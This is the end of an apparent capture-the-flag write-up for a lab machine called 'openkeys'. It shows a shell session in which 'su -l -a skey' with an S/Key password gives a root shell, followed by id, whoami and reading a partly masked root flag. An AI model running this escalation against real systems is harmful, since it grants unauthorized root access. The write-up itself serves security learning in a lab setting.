 ```shell
openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:
openkeys# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# whoami
root
openkeys# wc -c root.txt
      33 root.txt
openkeys# cat root.txt
f3a553b1697050******************

```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
